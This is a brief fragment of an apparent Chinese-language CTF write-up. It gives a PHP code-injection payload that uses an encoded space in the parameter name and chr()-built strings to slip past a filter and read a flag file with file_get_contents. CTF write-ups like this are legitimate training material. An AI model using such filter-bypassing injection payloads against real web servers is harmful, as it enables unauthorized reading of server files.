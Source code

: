 <img src="CTF.assets/image-20230514170624273.png" alt="image-20230514170624273" style="zoom:50%;" />

使用`file_get_contents`读取文件内容

payload：`?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

